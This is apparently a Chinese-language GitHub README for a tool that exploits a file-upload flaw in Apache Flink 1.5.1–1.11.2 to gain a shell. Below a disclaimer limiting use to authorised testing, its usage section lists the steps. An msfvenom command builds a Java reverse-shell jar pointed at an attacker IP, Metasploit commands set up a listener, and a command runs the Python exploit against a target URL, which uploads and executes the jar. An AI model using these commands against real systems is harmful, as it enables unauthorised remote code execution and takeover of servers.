 # Apache-flink-fileupload-getshell
Apache-Flink


# 免责声明
使用本程序请自觉遵守当地法律法规，出现一切后果均与作者无关。

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!

严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

由于用户滥用造成的一切后果与作者无关。

切勿用于非法用途，非法使用造成的一切后果由自己承担，与作者无关。

### 背景介绍
```
Apache Flink是一个面向数据流处理和批量数据处理的可分布式的开源计算框架。它可以用来做批处理，即处理静态的数据集、历史的数据集；也可以用来做流处理，即实时地处理一些实时数据流，实时地产生数据的结果；也可以用来做一些基于事件的应用；该漏洞允许攻击者利用REST API，并通过精心构造的HTTP Header，实现远程文件写入。

影响版本：Apache Flink: 1.5.1 —— 1.11.2
```


### 食用方法

首先需要使用msf生成一个jar包的攻击载荷
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.99.5 lport=4444 -f jar > exp.jar
```

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/24e8e86b-571b-4670-bae1-83eb89b204e5)


将攻击载荷`exp.jar`放入到python脚本的同级目录下
注：在脚本中攻击载荷的名字写死了为`exp.jar`，使用者可以随意更换

攻击载荷生成完成后，在msf上建立监听接受反弹的shell

```
use exploit/multi/handler

set payload java/shell/reverse_tcp

set LHOST 0.0.0.0

set LPORT 4444

exploit
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/63d6b1f9-45ba-4a3b-91ee-d3319c0e361a)


随后执行python脚本
```
 python .\apache_flink文件上传getshell.py -u http://192.168.99.7:8081
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/a1d2474c-78e7-4554-ab65-f9b9f1fa7b6e)


脚本会返回apache-flink的版本信息，若存在漏洞则会上传`exp.jar`包，成功上传后会返回jar包落地的文件名，并且会执行该jar包

